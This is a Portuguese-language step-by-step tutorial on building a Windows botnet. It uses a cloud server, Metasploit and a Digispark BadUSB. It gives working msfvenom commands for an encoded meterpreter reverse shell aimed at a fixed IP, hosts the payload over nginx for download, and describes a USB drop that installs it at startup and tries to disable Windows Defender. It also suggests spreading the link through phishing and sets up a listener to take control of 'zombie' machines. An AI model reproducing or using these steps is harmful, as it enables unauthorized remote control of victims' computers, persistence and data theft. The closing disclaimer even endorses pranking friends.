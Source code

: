 

**Criar uma instancia e definir um IP estático**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instância. instância essa que é bem básica, uma micro com SO Debian 9.

Com o a instância criada, eu defino um IP estático para ela.
O IP estático é necessário para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suíço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis".

   Conecte-se a sua instância por ssh para instalarmos o **METASPLOIT**.
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
Conceda permisão de execução para o instalador.

 ```shell
 chmod +x msfinstall
```
Agora execute o mesmo.

 ```shell
 ./msfinstall
```
E após concluir rode.


 ```shell
 msfconsole --version
```
Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta.

**Criar backdoor**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar, que vai ser uma **REVERSA TCP** para qual tipo de SO alvo, que será máquinas Windows, o nosso **LHOST**(IP de comunicação) que vai ser o nosso IP estático, nossa **LPORT**(porta de comunicação) a porta TCP, o tipo da extensão do backdoor **-f exe**, que são executáveis do windows, o algoritmo de criptografia e compreensão **-e x86/shikata_ga_nai**, **-i 5** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saída.  Se você estive em uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretório verá que o arquivo payload.exe foi criado


**Configurar servidor web para download**

O **NGINX** vai ser necessário para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da máquina alvo. Ou enviarmos o link através de engenharia social para obter acesso a máquina alvo. 
 
 Vamos instalar o nginx.

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor.

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponível para download em.

http://34.97.212.80/payload.exe


**DigiQuack: Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)



Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de várias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas, Ou também utilizando técnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção físico**, onde vamos precisar ter acesso físico a uma máquina e em posse de um **Digispark** iremos infectar o alvo.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderíamos utilizar o **Rubber duck** *(dispositivo esse usado na serie Mr. Robot)* original, mas no Brasil é difícil encontramos e os poucos chegam a ser vendidos por um precinho um pouco salgado.*

O **Digispark** chega ser um genérico ao Rubber duck tem um desempenho inferior mas é uma alternativa acessível e viável para o nosso ataque e pode ser programada com a **IDE do Arduíno**. Com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permissão do usuário da máquina, e iremos executar comandos de teclado para fazer o download do backdoor e executar ele na máquina, adicionando ele junto a inicialização do Windows, para que quando a máquina for reiniciada obtermos uma nova conexão.

Agora bora lá, para isso você vai precisar de um [Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16"). Com ele em mãos agora você vai precisar carregar nele os módulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui.

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injetar o backdoor**

Feito tudo isso e com o **Arduíno IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma máquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o **Arduíno IDE** e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar, para debugar nosso código e depois clique em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vai injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.

Agora basta pluga-lo em qualquer máquina windows desviar a atenção do usuário da máquina aguardar alguns segundos e remove-lo, tudo muito rápido.

Você também pode enviar o link para alguém e aguardar que ele se junte a sua rede de zumbis hahahaha


**Iniciar a escuta das conexões**

Agora voltamos para a nossa instância para iniciarmos a escuta na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
msf >use exploit/multi/handler
msf >set PAYLOAD windows/meterpreter/reverse_tcp
msf >set LHOST 34.97.212.80
msf >set LPORT 5000
msf >set ExitOnSession false
```
Feito isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma máquina infectada**


Para ficar na escuta em tempo real de quem se conectou ou desconectou rode.

```shell
msf > exploit -j -z
```
 Para listar nossas conexões de entrada até o momento.

```shell
msf> sessions -l 
```
Você terá uma saída algo como.

![](https://s5.gifyu.com/images/sessionsL.png)

E para acessar um "zumbir".
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtêm acesso shell.

![](https://s5.gifyu.com/images/sessionsI.png)

E é isso, agora você é portador desse conhecimento e como escreveu Stan Lee, Tio Ben, na obra o Homem Aranha.

#### **"Com grandes poderes, vêm grandes responsabilidades."**

 
#### **CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE.**

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDÁTICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
